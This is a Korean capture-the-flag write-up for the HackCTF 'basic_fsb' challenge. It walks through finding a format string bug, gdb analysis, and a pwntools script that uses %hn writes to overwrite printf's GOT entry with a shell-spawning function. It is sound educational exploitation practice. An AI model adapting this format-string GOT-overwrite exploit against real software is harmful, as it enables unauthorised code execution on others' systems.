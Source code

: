 ```yaml
---
title: "HackCTF basic_fsb Write-Up"
tags: ["wargame"]
categories: ["System"]
---
```


# Index

1. [문제 분석](#문제-분석)

* * *

## 문제 분석

문제를 다운로드 받으면 제목에서 알 수 있듯이 Format String Bug와 관련된 문제임을 예상할 수 있습니다.

FSB 문제에서 취약점을 찾는 방법은 입력값에 `%x, %d` 와 같은 특별한 용도로 사용되는 지시자를 입력해보는 것입니다. 문제를 실행하면 한 번의 입력을 받는 것을 확인할 수 있었습니다.

```
root@3218f793af99:~/hackctf/basic_fsb# ./basic_fsb
input : AAAA %x %x %x %x %x %x
AAAA f7fc72b4 41414141 20782520 25207825 78252078 20782520
```

`%x` 지시자를 사용했을 때 의도되지 않은 값을 출력하는 것을 보아 FSB 취약점이 있는 것은 확인할 수 있었습니다. 추가적으로 출력값에서 주목해야 할 부분은 "41414141" 입니다.

`%x`는 Hex 값을 출력하므로 이는 가장 처음에 입력한 "AAAA" 문자임을 알 수 있습니다. FSB 취약점을 통해서 진행할 수 있는 공격에는 크게 "GOT overwrite"와 ".dtors 영역"을 사용하는 방법이 있습니다.

우선 이 문제를 해결하기 위해서는 별도로 shell을 호출하는 함수가 존재하기에 GOT overwrite를 사용할 것입니다. Format string bug에 관해서는 이전에 공부하며 다른 문제를 풀었던 경험이 있기에 어려운 개념은 아니었습니다. 관련 내용은 [[게시글](https://jun-project-lab.github.io/system/fsb/)]에서 정리하였습니다.

그럼에도 불구하고 Exploit에 꽤나 많은 시간이 필요하였고 이 과정에서 새롭게 알게된 개념들에 대해 다시금 정리하기 위해 Write-Up을 작성하게 되었습니다.

## GDB 분석

Payload 작성을 위해 gdb를 사용하여 분석을 시도하였습니다. 또한 어느 지점에서 취약점이 발생하는지 또한 확인하는 시간을 가졌습니다.

먼저 `info functions`을 통해 main, vuln, flag 세 개의 함수를 확인할 수 있었습니다.

```
0x0804854b  vuln
0x080485b4  flag
0x080485ed  main
```

flag 함수의 경우 shell을 호출하는 함수였으며 vuln 함수의 경우 사실 상 프로그램의 전반적인 동작을 모두 담고 있는 함수였습니다. main 함수는 vuln 함수를 호출 후 해당 함수의 동작이 종료될 시 같이 종료되었습니다.

vuln 함수를 분석해보면 `fgets()` 함수를 통해 입력받은 값을 `snprintf()` 함수로 일차적으로 이동 후 `printf()` 함수로 최종적으로 출력을 진행하였습니다.

`snprintf()`와 `printf()` 함수 모두 format string을 사용하는 함수이기에 어떤 함수에서 fsb가 발생하는지 우선 확인하였습니다.

gdb를 통해 함수의 진행과 값의 변화를 확인한 결과 `snprintf()`에서 fsb가 발생한 값을 변수에 저장 후 해당 변수를 `printf()`를 통해 출력하는 것을 통해 `snprintf()`에서 fsb가 발생한다고 판단하였습니다.

다음으로는 GOT overwrite를 할 대상 함수를 찾아보았습니다. GOT overwrite를 성공하기 위해서는 overwrite 후 해당 함수가 호출될 필요가 있었기에 `snprintf()`가 호출된 이후 후행되는 함수들 중 선택할 필요가 있었습니다.

후행되는 함수 중에서는 `printf()`만이 존재하였고 해당 함수의 GOT를 목표로 payload 작성을 진행하였습니다.

## Exploit

Exploit code를 작성하며 기존에 잘못 알고 있던 개념 몇 가지를 바로 잡을 수 있었습니다. `%n, %hn` 지시자 등을 통해 특정 주소에 값을 저장할 때 해당 **주소**를 변조하는 것이 아닌 해당 주소의 **값**을 변조하는 것이었습니다.

> Example

```
\xbe\xba\xfe\xca%Nc%n 과 같이 사용할 경우 0xcafebabe 주소를 직접 변조하는 것이 아닌 해당 주소에 저장되어 있는 값을 변조함
```

대부분의 Write-Up은 `%n`을 사용해서 전체 주소를 변조하는 내용이기에 `%hn`을 통해 절반 씩 변조하는 payload를 작성해보았습니다.

```python
#!/usr/bin/python3

import pwn 

p = pwn.remote("ctf.j0n9hyun.xyz", 3002)
#pwn.context.log_level = 'debug'

flag = 0x080485b4
printfGot = 0x0804a00c

payload = pwn.p32(printfGot+2)
payload += pwn.p32(printfGot)
payload += b"%2044c%2$hn"
payload += b"%32176c%3$hn"

p.sendline(payload)

p.interactive()
```
